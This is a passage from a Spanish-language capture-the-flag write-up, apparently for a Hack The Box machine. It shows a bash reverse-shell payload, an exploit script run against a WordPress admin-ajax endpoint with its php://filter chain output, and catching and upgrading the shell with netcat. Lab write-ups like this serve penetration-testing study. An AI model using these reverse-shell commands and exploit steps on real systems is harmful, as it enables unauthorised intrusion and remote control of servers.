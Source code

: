 Aprovecharemos la capacidad para ejecutar comandos para enviarnos una consola usando el siguiente payload

~~~ bash
bash -c 'bash -i >& /dev/tcp/$tun0_ip/$port 0>&1'
~~~

## Shell as `www-data` - Container

Con el puerto preparado para recibir la conexión, lanzaremos el exploit que nos envíe una shell a nuestra IP por el puerto `443`

~~~ bash
python3 exploit.py "http://blog.bigbang.htb/wp-admin/admin-ajax.php" "bash -c 'bash -i >& /dev/tcp/10.10.15.9/443 0>&1'"
[*] Potential heaps: 0x7faf96400040, 0x7faf96200040, 0x7faf94c00040, 0x7faf92800040, 0x7faf92000040, 0x7faf91800040, 0x7faf90600040 (using last one)
HEAP address: 0x7faf96400040
LIBC address: 0x7faf991bf000
Sending exploit...
PATH: 
php://filter/read=zlib.inflate|zlib.inflate|dechunk|convert.iconv.L1.L1|dechunk|convert.iconv.L1.L1|dechunk|convert.iconv.L1.L1|dechunk|convert.iconv.UTF-8.ISO-2022-CN-EXT|convert.quo
ted-printable-decode|convert.iconv.L1.L1/resource=data:text/plain;base64,e3vXf91rExH2hP7zWXPMtpvLujzay15+RkypYNvBFkHuBOk1XbUFMp/Z/sxUiFWR+2cXuT95e+asLxFzl4Ux4AfLNui4xzwtm2oV9lWsem1q3s
QcAfwaGjx1TguG74xd2he692hc9sxoFWkW/DoShE4XHQnNC1+ZHJq/8XrUM7GTbIz4rVh5Z7ruuqD1QcdXXfvH8sMu7+v3k7v7+W/HTa9d+/vzxvqK2/H3/63Vn5WyZv7l9z/llCftZyfgy3+v5UyrKm+6Sa4u7f4b+P167v69b84///cwt772d
vbbx5Hf+1/Xra6vs+2//yq+v/9JOBt+99U/+ff3K8On39+vM594f7/3arnpt+u///3YYh/3q2Lt34OPv6fur38z+fjxvx/33Pt7Zfr29d9/f5615rf32+Tad69//Xxw+1/Eus25++X/7IiffH1/9Wur839n//22I67ytvzrUsZ+u/rY3+nx66//
PvrkyWx7v7h1Jz9bJew99jX2+/nnZ5I/VR9vvsz7+L+10s9qZvzennFsU07h1Cpg5G51m3lzvf1fiZPfCIRUgkX/iQjjqNcbXWe6qPxlH1U8qnhUMZ0Vz7gXlH2mZPfpHbefa3hP8diGv7RkOPBlWlTystuxx+7auUcuctnES6jI335FyvjuO6N
33yxPCalOyiWg3GDt0rzCqVLxl1L3P3nqVil+f9r6un9P24OUDpUR0DnjWtD2HV69+i83xWdNKRcT3EaguDqwZdquo6FZNZ7T/wYt3rO54wcvAA==

     EXPLOIT  SUCCESS 
~~~

Deberíamos recibir la conexión, inmediatamente haremos el tratamiento de la TTY para poder operar de forma más cómoda

~~~ bash
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.15.9] from (UNKNOWN) [10.10.11.52] 54480
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@8e3a72b5e980:/var/www/html/wordpress/wp-admin$ script /dev/null -c bash
<w/html/wordpress/wp-admin$ script /dev/null -c bash    
Script started, output log file is '/dev/null'.
www-data@8e3a72b5e980:/var/www/html/wordpress/wp-admin$ ^Z
[1]  + 60289 suspended  nc -lvnp 443
root@parrot exploits # stty raw -echo; fg
[1]  + 60289 continued  nc -lvnp 443
                                    reset xterm
~~~
